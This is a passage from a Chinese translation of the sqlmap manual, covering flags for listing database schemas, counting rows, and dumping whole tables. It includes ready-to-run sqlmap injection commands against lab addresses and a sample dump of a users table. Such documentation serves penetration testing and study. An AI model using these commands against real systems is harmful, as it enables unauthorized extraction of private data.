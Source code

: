 ####  8.12 列举数据库系统的架构

参数：`--schema`,`--exclude-sysdbs`

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上--exclude-sysdbs参数，将不会获取数据库自带的系统库内容。

```bash
sqlmap -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
```

#### 8.13 获取表中数据个数

参数：`--count`

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

```bash
sqlmap -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
```

#### 8.14 获取整个表的数据

参数：`--dump`,`-C`,`-T`,`-D`,`--start`,`--stop`,`--first`,`--last`

如果当前管理员有权限读取数据库其中的一个表的话，那么就能获取真个表的所有内容。

使用-D,-T参数指定想要获取哪个库的哪个表，不适用-D参数时，默认使用当前库。

```bash
sqlmap -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```

可以获取指定库中的所有表的内容，只用-dump跟-D参数（不使用-T与-C参数）。

也可以用-dump跟-C获取指定的字段内容。

sqlmap为每个表生成了一个CSV文件。

如果你只想获取一段数据，可以使用--start和--stop参数，例如，你只想获取第一段数据可hi使用--stop 1，如果想获取第二段与第三段数据，使用参数 --start 1 --stop 3。

也可以用--first与--last参数，获取第几个字符到第几个字符的内容，如果你想获取字段中地三个字符到第五个字符的内容，使用--first 3 --last 5，只在盲注的时候使用，因为其他方式可以准确的获取注入内容，不需要一个字符一个字符的猜解。

#### 8.15 获取所有数据库表的内容

参数：`--dump-all`,`--exclude-sysdbs`
